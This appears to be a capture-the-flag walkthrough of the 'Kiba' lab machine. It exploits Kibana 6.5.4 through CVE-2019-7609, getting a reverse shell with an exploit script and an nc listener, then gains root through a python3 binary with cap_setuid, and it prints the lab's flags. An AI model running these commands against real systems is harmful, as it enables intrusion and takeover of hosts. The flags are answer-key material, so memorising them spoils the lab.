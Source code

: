 # kiba

## Description

Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.

## Initial Scan

Let's start with a full port Nmap scan. The scan reveals four open ports:
* 22 ssh
* 80 http
* 5044 lxi-evntsvc
* 5601 esmagent

~~~
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Wed, 27 Oct 2021 14:20:51 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Wed, 27 Oct 2021 14:20:48 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Wed, 27 Oct 2021 14:20:48 GMT
|_    {"statusCode":404,"error":"Not Found"}
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## [Task 1] Flags

Are you able to complete the challenge?

### 1. What is the vulnerability that is specific to programming languages with prototype-based inheritance?

The answer is `Prototype pollution` which is specific to programming languages with prototype-based inheritance.

### 2. What is the version of visualization dashboard installed in the server?

I headed to port 5601 which is hosting Kibana. I went to Management section and the version is there:

<p align="center"><img src="./files/version.png"></p>

Version: `6.5.4`

### 3. What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

I searched for this version's vulnerabilities and found [this](https://github.com/LandGrey/CVE-2019-7609) github repository:

Kibana versions before 5.6.15 and 6.6.1 contain an arbitrary code execution flaw in the Timelion visualizer. An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.

CVE: `CVE-2019-7609`

### 4. Compromise the machine and locate user.txt

Let's exploit this vulnerability. First I downloaded the python scrip included in the repository. Then I started a listener and then ran the exploit:

~~~
$ ./exploit.py -u http://$IP:5601 -host <YOUR IP> -port 4444 --shell
~~~

Now we have a shell as "kiba":

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/kiba/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.2.173] from (UNKNOWN) [10.10.135.116] 43826
bash: cannot set terminal process group (908): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ id
uid=1000(kiba) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
kiba@ubuntu:/home/kiba/kibana/bin$
~~~

Now we can look for the user flag. It is located in `/home/kiba`:

~~~
kiba@ubuntu:/home/kiba/kibana/bin$ cd /home/kiba
kiba@ubuntu:/home/kiba$ cat user.txt
THM{1s_easy_pwn3d_k1bana_w1th_rce}
~~~

user.txt: `THM{1s_easy_pwn3d_k1bana_w1th_rce}`

### 5. Capabilities is a concept that provides a security system that allows "divide" root privileges into different values

It is a description on capabilities. No answers needed.

### 6. How would you recursively list all of these capabilities?

Command: `getcap -r /`

### 7. Escalate privileges and obtain root.txt

Let's check the capabilities. (No need to say but I added `2>/dev/null` to filter out the useless results):

~~~
kiba@ubuntu:/home/kiba$ getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep  <--------------
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
~~~

We can see a custom python3 installation in `/home/kiba/.hackmeplease/`. I looked it up in [GTFOBins](https://gtfobins.github.io/) and found a command which can gain us the root privileges:

~~~
kiba@ubuntu:/home/kiba$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
~~~

The first thing I did was spawning a TTY shell using a python one-liner cuz why not. Then I went to `/root` and read the root flag:

~~~
python3 -c "import pty;pty.spawn('/bin/bash')"
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@ubuntu:/home/kiba# cd /root
root@ubuntu:/root# cat root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
~~~

root.txt: `THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun!

And have a good one! : )
